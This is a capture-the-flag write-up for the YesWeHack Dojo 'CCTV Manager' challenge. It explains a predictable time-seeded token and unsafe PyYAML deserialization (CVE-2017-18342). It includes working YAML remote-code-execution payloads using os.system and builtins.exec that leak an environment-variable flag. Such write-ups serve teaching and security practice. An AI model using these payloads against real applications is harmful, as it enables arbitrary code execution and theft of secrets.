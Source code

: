 # YesWeHack Dojo43 CCTV Manager Write-Up

<p align="justify">The targeted app is a firmware updater implementing a token-based access control.It generates a "root" token and compares it against a "guest" token provided by the user.
If the tokens match, it loads a YAML config (expected to contain firmware data), instantiates a Firmware object, and calls its update() method. As a matter of fact, update method from firmware class is empty and don't do anything.Finally, it renders an index.html template showing whether access was granted.</p>

## Code analysis
<p align="justify">The application implements a weak token-based authentication mechanism, where the server-generated token could be predicted or matched by an attacker. Combined with the insecure use of yaml.load() on untrusted input, this enabled malicious YAML payloads to trigger Python built-in functions and achieve Remote Code Execution (RCE). This flaw allowed attackers to bypass authentication, execute arbitrary code, and disclose sensitive information such as environment variables (including the flag). </p>

<p align="justify">Below is the function used to generate 'random' token, taking current time (namely server time) as seed :</p>

````python
def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))
````

<p align="justify">This is a very weak access control implementation insofar as server time can be easily catched using following cmdline. As a result token can be successfuly generated: </p>

````bash
curl -sI https://dojo-yeswehack.com | grep -i '^date:' | cut -d' ' -f2-
````

<p align="justify">Once token is validated yaml firware is loaded thanks to following lines. This load method is officialy deprecated for security reasons and depicted as unsafe.</p> 

````python
    try:
        data = yaml.load(yamlConfig, Loader=yaml.Loader)
        firmware = Firmware(**data["firmware"])
        firmware.update()
    except:
        pass
````

## CVE-2017-18342
<p align="justify"> This use of PyYaml load method is the subject of a CVE known as <a href="https://nvd.nist.gov/vuln/detail/cve-2017-18342">CVE-2017-18342</a>. This is actually a case of insecure YAML deserialization in which an attacker can leverage insecure YAML data load to use Python object constructors and as a result run commands in the environement of the challenge.</p>

## Flag read
<p align="justify">In this challenge, Flag is stored in FLAG venv and can be disclose easly using echo or cat.</p>

### solve 1 
<p align="justify">This first YAML payload return the flag in server output using os.system python object:</p>

````bash
firmware:
  version: !!python/object/apply:os.system
  - |
    echo $FLAG
````

### solve 2  

<p align="justify">This second YAML payload return the flag in server output using builtins.exec python object and leveraging threading server behavior and error output:</p>

````bash
firmware:
  version: !!python/object/apply:builtins.exec 
  - |
    import threading
    def leak_flag():
        import os
        flag = os.environ.get("FLAG", "no_flag")
        raise Exception(f"FLAG_LEAK: {flag}")
    threading.Thread(target=leak_flag).start() # starting thread in server context triggers error relfected in output server (see snippet below)
````


